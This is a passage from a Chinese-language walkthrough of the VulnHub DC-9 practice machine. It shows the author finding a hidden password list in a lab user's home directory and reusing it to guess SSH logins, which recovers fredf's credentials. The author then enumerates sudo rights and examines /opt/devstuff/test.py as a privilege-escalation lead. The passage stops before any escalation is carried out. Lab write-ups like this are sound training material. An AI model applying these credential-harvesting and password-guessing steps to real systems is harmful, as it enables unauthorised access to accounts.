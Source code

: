 挨个登录,在 joeyt home 目录下发现了个隐藏目录 普京的密码 (作者你认真的嘛？🤣)
```bash
ls -la
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/15.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/16.png)

拿这个密码表在测一次 SSH
```
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

跑出一个新用户,登录看能不能提权
```
fredf   B4-Tru3-001
```

```bash
sudo -l
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/17.png)

看看 `/opt/devstuff/dist/test/test` 是啥
```bash
cd /opt/devstuff/dist/test/
type test
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/18.png)

一个二进制文件,运行提示我 test.py

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/19.png)

找一下 test.py
```bash
cd /tmp
find / -name test.py > a.txt
cat a.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/20.png)

2个 test.py,不过我估计 `/opt/devstuff/test.py` 才是我们需要的
```bash
cat /opt/devstuff/test.py
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/21.png)
